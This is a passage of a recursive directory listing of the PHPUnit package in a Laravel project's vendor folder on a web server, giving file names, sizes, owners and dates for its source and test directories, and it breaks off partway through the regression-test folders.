-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 LICENSE
-rw-r--r--  1 www-data www-data 2.2K Apr  3  2017 README.md
-rw-r--r--  1 www-data www-data  19K Apr  3  2017 build.xml
-rw-r--r--  1 www-data www-data 2.1K Apr  3  2017 composer.json
-rwxr-xr-x  1 www-data www-data 1.3K Apr  3  2017 phpunit
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 phpunit.xml
-rw-r--r--  1 www-data www-data  13K Apr  3  2017 phpunit.xsd
drwxr-xr-x  8 www-data www-data 4.0K Apr  3  2017 src
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 tests

/var/www/laravel/vendor/phpunit/phpunit/.github:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 CODE_OF_CONDUCT.md
-rw-r--r-- 1 www-data www-data 2.5K Apr  3  2017 CONTRIBUTING.md
-rw-r--r-- 1 www-data www-data  518 Apr  3  2017 ISSUE_TEMPLATE.md

/var/www/laravel/vendor/phpunit/phpunit/src:
total 36K
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  313 Apr  3  2017 Exception.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 Extensions
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 ForwardCompatibility
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 Framework
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 Runner
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 TextUI
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 Util

/var/www/laravel/vendor/phpunit/phpunit/src/Extensions:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Apr  3  2017 GroupTestSuite.php
-rw-r--r-- 1 www-data www-data  12K Apr  3  2017 PhptTestCase.php
-rw-r--r-- 1 www-data www-data  990 Apr  3  2017 PhptTestSuite.php
-rw-r--r-- 1 www-data www-data 2.2K Apr  3  2017 RepeatedTest.php
-rw-r--r-- 1 www-data www-data 2.3K Apr  3  2017 TestDecorator.php
-rw-r--r-- 1 www-data www-data 5.6K Apr  3  2017 TicketListener.php

/var/www/laravel/vendor/phpunit/phpunit/src/ForwardCompatibility:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  349 Apr  3  2017 Assert.php
-rw-r--r-- 1 www-data www-data  379 Apr  3  2017 BaseTestListener.php
-rw-r--r-- 1 www-data www-data  355 Apr  3  2017 TestCase.php
-rw-r--r-- 1 www-data www-data  362 Apr  3  2017 TestListener.php

/var/www/laravel/vendor/phpunit/phpunit/src/Framework:
total 368K
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 Assert
-rw-r--r-- 1 www-data www-data  88K Apr  3  2017 Assert.php
-rw-r--r-- 1 www-data www-data  586 Apr  3  2017 AssertionFailedError.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  3  2017 BaseTestListener.php
-rw-r--r-- 1 www-data www-data  315 Apr  3  2017 CodeCoverageException.php
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 Constraint
-rw-r--r-- 1 www-data www-data 4.2K Apr  3  2017 Constraint.php
-rw-r--r-- 1 www-data www-data  481 Apr  3  2017 CoveredCodeNotExecutedException.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 Error
-rw-r--r-- 1 www-data www-data  755 Apr  3  2017 Error.php
-rw-r--r-- 1 www-data www-data 2.3K Apr  3  2017 Exception.php
-rw-r--r-- 1 www-data www-data 2.2K Apr  3  2017 ExceptionWrapper.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 ExpectationFailedException.php
-rw-r--r-- 1 www-data www-data  426 Apr  3  2017 IncompleteTest.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  3  2017 IncompleteTestCase.php
-rw-r--r-- 1 www-data www-data  482 Apr  3  2017 IncompleteTestError.php
-rw-r--r-- 1 www-data www-data  334 Apr  3  2017 InvalidCoversTargetException.php
-rw-r--r-- 1 www-data www-data  493 Apr  3  2017 MissingCoversAnnotationException.php
-rw-r--r-- 1 www-data www-data  438 Apr  3  2017 OutputError.php
-rw-r--r-- 1 www-data www-data  372 Apr  3  2017 RiskyTest.php
-rw-r--r-- 1 www-data www-data  466 Apr  3  2017 RiskyTestError.php
-rw-r--r-- 1 www-data www-data  481 Apr  3  2017 SelfDescribing.php
-rw-r--r-- 1 www-data www-data  345 Apr  3  2017 SkippedTest.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  3  2017 SkippedTestCase.php
-rw-r--r-- 1 www-data www-data  472 Apr  3  2017 SkippedTestError.php
-rw-r--r-- 1 www-data www-data  483 Apr  3  2017 SkippedTestSuiteError.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  3  2017 SyntheticError.php
-rw-r--r-- 1 www-data www-data  602 Apr  3  2017 Test.php
-rw-r--r-- 1 www-data www-data  70K Apr  3  2017 TestCase.php
-rw-r--r-- 1 www-data www-data 3.8K Apr  3  2017 TestFailure.php
-rw-r--r-- 1 www-data www-data 2.8K Apr  3  2017 TestListener.php
-rw-r--r-- 1 www-data www-data  33K Apr  3  2017 TestResult.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 TestSuite
-rw-r--r-- 1 www-data www-data  28K Apr  3  2017 TestSuite.php
-rw-r--r-- 1 www-data www-data  465 Apr  3  2017 UnintentionallyCoveredCodeError.php
-rw-r--r-- 1 www-data www-data  575 Apr  3  2017 Warning.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 WarningTestCase.php

/var/www/laravel/vendor/phpunit/phpunit/src/Framework/Assert:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  51K Apr  3  2017 Functions.php

/var/www/laravel/vendor/phpunit/phpunit/src/Framework/Constraint:
total 200K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.0K Apr  3  2017 And.php
-rw-r--r-- 1 www-data www-data 1.9K Apr  3  2017 ArrayHasKey.php
-rw-r--r-- 1 www-data www-data 2.8K Apr  3  2017 ArraySubset.php
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 Attribute.php
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 Callback.php
-rw-r--r-- 1 www-data www-data 1.9K Apr  3  2017 ClassHasAttribute.php
-rw-r--r-- 1 www-data www-data 1.3K Apr  3  2017 ClassHasStaticAttribute.php
-rw-r--r-- 1 www-data www-data 1.9K Apr  3  2017 Composite.php
-rw-r--r-- 1 www-data www-data 3.0K Apr  3  2017 Count.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 DirectoryExists.php
-rw-r--r-- 1 www-data www-data 2.1K Apr  3  2017 Exception.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  3  2017 ExceptionCode.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  3  2017 ExceptionMessage.php
-rw-r--r-- 1 www-data www-data 1.8K Apr  3  2017 ExceptionMessageRegExp.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 FileExists.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 GreaterThan.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  3  2017 IsAnything.php
-rw-r--r-- 1 www-data www-data 1.5K Apr  3  2017 IsEmpty.php
-rw-r--r-- 1 www-data www-data 4.8K Apr  3  2017 IsEqual.php
-rw-r--r-- 1 www-data www-data  836 Apr  3  2017 IsFalse.php
-rw-r--r-- 1 www-data www-data  840 Apr  3  2017 IsFinite.php
-rw-r--r-- 1 www-data www-data 3.7K Apr  3  2017 IsIdentical.php
-rw-r--r-- 1 www-data www-data  848 Apr  3  2017 IsInfinite.php
-rw-r--r-- 1 www-data www-data 2.2K Apr  3  2017 IsInstanceOf.php
-rw-r--r-- 1 www-data www-data 1.8K Apr  3  2017 IsJson.php
-rw-r--r-- 1 www-data www-data  828 Apr  3  2017 IsNan.php
-rw-r--r-- 1 www-data www-data  832 Apr  3  2017 IsNull.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 IsReadable.php
-rw-r--r-- 1 www-data www-data  832 Apr  3  2017 IsTrue.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 IsType.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 IsWritable.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 JsonMatches
-rw-r--r-- 1 www-data www-data 1.5K Apr  3  2017 JsonMatches.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 LessThan.php
-rw-r--r-- 1 www-data www-data 4.1K Apr  3  2017 Not.php
-rw-r--r-- 1 www-data www-data  876 Apr  3  2017 ObjectHasAttribute.php
-rw-r--r-- 1 www-data www-data 2.8K Apr  3  2017 Or.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 PCREMatch.php
-rw-r--r-- 1 www-data www-data  541 Apr  3  2017 SameSize.php
-rw-r--r-- 1 www-data www-data 1.8K Apr  3  2017 StringContains.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 StringEndsWith.php
-rw-r--r-- 1 www-data www-data 2.3K Apr  3  2017 StringMatches.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 StringStartsWith.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 TraversableContains.php
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 TraversableContainsOnly.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  3  2017 Xor.php

/var/www/laravel/vendor/phpunit/phpunit/src/Framework/Constraint/JsonMatches:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.9K Apr  3  2017 ErrorMessageProvider.php

/var/www/laravel/vendor/phpunit/phpunit/src/Framework/Error:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  533 Apr  3  2017 Deprecated.php
-rw-r--r-- 1 www-data www-data  511 Apr  3  2017 Notice.php
-rw-r--r-- 1 www-data www-data  514 Apr  3  2017 Warning.php

/var/www/laravel/vendor/phpunit/phpunit/src/Framework/TestSuite:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  589 Apr  3  2017 DataProvider.php

/var/www/laravel/vendor/phpunit/phpunit/src/Runner:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.6K Apr  3  2017 BaseTestRunner.php
-rw-r--r-- 1 www-data www-data  318 Apr  3  2017 Exception.php
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 Filter
-rw-r--r-- 1 www-data www-data 3.5K Apr  3  2017 StandardTestSuiteLoader.php
-rw-r--r-- 1 www-data www-data  682 Apr  3  2017 TestSuiteLoader.php
-rw-r--r-- 1 www-data www-data 1.6K Apr  3  2017 Version.php

/var/www/laravel/vendor/phpunit/phpunit/src/Runner/Filter:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 Factory.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 Group
-rw-r--r-- 1 www-data www-data 1.5K Apr  3  2017 Group.php
-rw-r--r-- 1 www-data www-data 3.2K Apr  3  2017 Test.php

/var/www/laravel/vendor/phpunit/phpunit/src/Runner/Filter/Group:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  498 Apr  3  2017 Exclude.php
-rw-r--r-- 1 www-data www-data  497 Apr  3  2017 Include.php

/var/www/laravel/vendor/phpunit/phpunit/src/TextUI:
total 116K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  40K Apr  3  2017 Command.php
-rw-r--r-- 1 www-data www-data  18K Apr  3  2017 ResultPrinter.php
-rw-r--r-- 1 www-data www-data  48K Apr  3  2017 TestRunner.php

/var/www/laravel/vendor/phpunit/phpunit/src/Util:
total 176K
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 Blacklist.php
-rw-r--r-- 1 www-data www-data  35K Apr  3  2017 Configuration.php
-rw-r--r-- 1 www-data www-data 1.9K Apr  3  2017 ConfigurationGenerator.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 ErrorHandler.php
-rw-r--r-- 1 www-data www-data 1.7K Apr  3  2017 Fileloader.php
-rw-r--r-- 1 www-data www-data  800 Apr  3  2017 Filesystem.php
-rw-r--r-- 1 www-data www-data 2.9K Apr  3  2017 Filter.php
-rw-r--r-- 1 www-data www-data 4.6K Apr  3  2017 Getopt.php
-rw-r--r-- 1 www-data www-data 5.4K Apr  3  2017 GlobalState.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 InvalidArgumentHelper.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 Log
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 PHP
-rw-r--r-- 1 www-data www-data  11K Apr  3  2017 PHP.php
-rw-r--r-- 1 www-data www-data 3.4K Apr  3  2017 Printer.php
-rw-r--r-- 1 www-data www-data  881 Apr  3  2017 Regex.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 String.php
-rw-r--r-- 1 www-data www-data  35K Apr  3  2017 Test.php
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 TestDox
-rw-r--r-- 1 www-data www-data 2.0K Apr  3  2017 TestSuiteIterator.php
-rw-r--r-- 1 www-data www-data  840 Apr  3  2017 Type.php
-rw-r--r-- 1 www-data www-data 7.2K Apr  3  2017 XML.php

/var/www/laravel/vendor/phpunit/phpunit/src/Util/Log:
total 52K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 6.7K Apr  3  2017 JSON.php
-rw-r--r-- 1 www-data www-data  13K Apr  3  2017 JUnit.php
-rw-r--r-- 1 www-data www-data 6.4K Apr  3  2017 TAP.php
-rw-r--r-- 1 www-data www-data  11K Apr  3  2017 TeamCity.php

/var/www/laravel/vendor/phpunit/phpunit/src/Util/PHP:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 5.5K Apr  3  2017 Default.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 Template
-rw-r--r-- 1 www-data www-data 1013 Apr  3  2017 Windows.php
-rw-r--r-- 1 www-data www-data  275 Apr  3  2017 eval-stdin.php

/var/www/laravel/vendor/phpunit/phpunit/src/Util/PHP/Template:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.8K Apr  3  2017 TestCaseMethod.tpl.dist

/var/www/laravel/vendor/phpunit/phpunit/src/Util/TestDox:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.1K Apr  3  2017 NamePrettifier.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 ResultPrinter
-rw-r--r-- 1 www-data www-data 9.4K Apr  3  2017 ResultPrinter.php

/var/www/laravel/vendor/phpunit/phpunit/src/Util/TestDox/ResultPrinter:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.7K Apr  3  2017 HTML.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  3  2017 Text.php
-rw-r--r-- 1 www-data www-data 6.2K Apr  3  2017 XML.php

/var/www/laravel/vendor/phpunit/phpunit/tests:
total 52K
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Extensions
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Fail
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Framework
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 Regression
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Runner
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 TextUI
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Util
drwxr-xr-x  5 www-data www-data  12K Apr  3  2017 _files
-rw-r--r--  1 www-data www-data  143 Apr  3  2017 bootstrap.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Extensions:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 6.5K Apr  3  2017 PhptTestCaseTest.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 RepeatedTestTest.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Fail:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  103 Apr  3  2017 fail.phpt

/var/www/laravel/vendor/phpunit/phpunit/tests/Framework:
total 248K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 100K Apr  3  2017 AssertTest.php
-rw-r--r--  1 www-data www-data  719 Apr  3  2017 BaseTestListenerTest.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 Constraint
-rw-r--r--  1 www-data www-data  84K Apr  3  2017 ConstraintTest.php
-rw-r--r--  1 www-data www-data 9.2K Apr  3  2017 SuiteTest.php
-rw-r--r--  1 www-data www-data  21K Apr  3  2017 TestCaseTest.php
-rw-r--r--  1 www-data www-data  610 Apr  3  2017 TestFailureTest.php
-rw-r--r--  1 www-data www-data  651 Apr  3  2017 TestImplementorTest.php
-rw-r--r--  1 www-data www-data 2.8K Apr  3  2017 TestListenerTest.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Framework/Constraint:
total 36K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Apr  3  2017 ArraySubsetTest.php
-rw-r--r-- 1 www-data www-data 3.1K Apr  3  2017 CountTest.php
-rw-r--r-- 1 www-data www-data 1.4K Apr  3  2017 ExceptionMessageRegExpTest.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  3  2017 ExceptionMessageTest.php
-rw-r--r-- 1 www-data www-data  828 Apr  3  2017 IsJsonTest.php
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 JsonMatches
-rw-r--r-- 1 www-data www-data 1.6K Apr  3  2017 JsonMatchesTest.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Framework/Constraint/JsonMatches:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K Apr  3  2017 ErrorMessageProviderTest.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression:
total 16K
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 GitHub
drwxr-xr-x  7 www-data www-data 4.0K Apr  3  2017 Trac

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub:
total 280K
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1149
-rw-r--r--  1 www-data www-data  510 Apr  3  2017 1149.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1216
-rw-r--r--  1 www-data www-data  744 Apr  3  2017 1216.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1265
-rw-r--r--  1 www-data www-data  566 Apr  3  2017 1265.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1330
-rw-r--r--  1 www-data www-data  606 Apr  3  2017 1330.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1335
-rw-r--r--  1 www-data www-data  552 Apr  3  2017 1335.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1337
-rw-r--r--  1 www-data www-data  538 Apr  3  2017 1337.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1348
-rw-r--r--  1 www-data www-data  833 Apr  3  2017 1348.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1351
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 1351.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1374
-rw-r--r--  1 www-data www-data  548 Apr  3  2017 1374.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1437
-rw-r--r--  1 www-data www-data  628 Apr  3  2017 1437.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1468
-rw-r--r--  1 www-data www-data  598 Apr  3  2017 1468.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1471
-rw-r--r--  1 www-data www-data  629 Apr  3  2017 1471.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1472
-rw-r--r--  1 www-data www-data  657 Apr  3  2017 1472.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 1570
-rw-r--r--  1 www-data www-data  595 Apr  3  2017 1570.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 2137
-rw-r--r--  1 www-data www-data  712 Apr  3  2017 2137-filter.phpt
-rw-r--r--  1 www-data www-data  762 Apr  3  2017 2137-no_filter.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 2145
-rw-r--r--  1 www-data www-data  500 Apr  3  2017 2145.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 2158
-rw-r--r--  1 www-data www-data  555 Apr  3  2017 2158.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 2299
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 2366
-rw-r--r--  1 www-data www-data  503 Apr  3  2017 2366.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 2380
-rw-r--r--  1 www-data www-data  488 Apr  3  2017 2380.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 2382
-rw-r--r--  1 www-data www-data  495 Apr  3  2017 2382.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 2435
-rw-r--r--  1 www-data www-data  476 Apr  3  2017 2435.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 244
-rw-r--r--  1 www-data www-data  960 Apr  3  2017 244.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 322
-rw-r--r--  1 www-data www-data  709 Apr  3  2017 322.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 433
-rw-r--r--  1 www-data www-data  671 Apr  3  2017 433.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 445
-rw-r--r--  1 www-data www-data  711 Apr  3  2017 445.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 498
-rw-r--r--  1 www-data www-data  763 Apr  3  2017 498.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 503
-rw-r--r--  1 www-data www-data  731 Apr  3  2017 503.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 581
-rw-r--r--  1 www-data www-data  831 Apr  3  2017 581.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 74
-rw-r--r--  1 www-data www-data  666 Apr  3  2017 74.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 765
-rw-r--r--  1 www-data www-data  675 Apr  3  2017 765.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 797
-rw-r--r--  1 www-data www-data  603 Apr  3  2017 797.phpt
-rw-r--r--  1 www-data www-data  768 Apr  3  2017 863.phpt
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 873
-rw-r--r--  1 www-data www-data  568 Apr  3  2017 873-php5.phpt
-rw-r--r--  1 www-data www-data  542 Apr  3  2017 873-php7.phpt

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1149:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  299 Apr  3  2017 Issue1149Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1216:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  194 Apr  3  2017 Issue1216Test.php
-rw-r--r--  1 www-data www-data   78 Apr  3  2017 bootstrap1216.php
-rw-r--r--  1 www-data www-data  188 Apr  3  2017 phpunit1216.xml

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1265:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  141 Apr  3  2017 Issue1265Test.php
-rw-r--r--  1 www-data www-data   83 Apr  3  2017 phpunit1265.xml

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1330:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  149 Apr  3  2017 Issue1330Test.php
-rw-r--r--  1 www-data www-data   84 Apr  3  2017 phpunit1330.xml

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1335:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.7K Apr  3  2017 Issue1335Test.php
-rw-r--r--  1 www-data www-data  655 Apr  3  2017 bootstrap1335.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1337:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  324 Apr  3  2017 Issue1337Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1348:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  304 Apr  3  2017 Issue1348Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1351:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data   38 Apr  3  2017 ChildProcessClass1351.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 Issue1351Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1374:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  357 Apr  3  2017 Issue1374Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1437:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
